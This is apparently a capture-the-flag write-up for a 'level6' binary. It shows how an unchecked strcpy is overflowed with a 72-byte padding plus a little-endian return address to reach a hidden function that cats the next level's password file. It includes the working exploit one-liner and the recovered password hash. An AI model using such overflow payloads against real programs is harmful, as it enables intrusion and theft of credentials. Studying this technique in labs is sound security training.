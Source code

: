 We started by running the program without any arguments and encountered a segmentation fault:
```
./level6
Segmentation fault (core dumped)
```
Next, we ran the program with a test argument, which resulted in a standard response:
```
./level6 Heloooo
Nope
```
We ran the program a 3rd time r with a longer argument, which again resulted in a segmentation fault:
```
./level6 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```
Disassembling the `main` function revealed a call to `strcpy` with the provided argument. The `strcpy` function is notorious for being vulnerable to buffer overflow attacks due to its lack of bounds checking.

From the `strcpy` man page:
>The strcpy() function is easily misused in a manner which enables malicious users to arbitrarily change a running program's functionality through a buffer overflow attack.

 Additionally, we discovered an unused function called `n()`:
 ```
 (gdb) info functions
[...]
0x08048454  n
0x08048468  m
0x0804847c  main
[...]
```
Upon disassembling the `n()` function, we found that it calls the `system` function with the argument "/bin/cat /home/user/level7/.pass":
```
0x08048454 <+0>:    call   0x80483b0 <system@plt>
```
This gives us a clear path to exploit the program by redirecting the program flow to the `n()` function.

We need to determine the offset at which the buffer overflows with the help of https://wiremask.eu/tools/buffer-overflow-pattern-generator/?:
```
gdb ./level6
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()

```
We find that the buffer size is 72

We crafted the payload to overflow the buffer and overwrite the return address with the address of the `n()` function (`0x08048454`), using little-endian format. The payload consists of 72 'A' characters followed by the address of `n()`.
```
./level6 $(python -c "print 'A' * 72 + '\x54\x84\x04\x08'")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
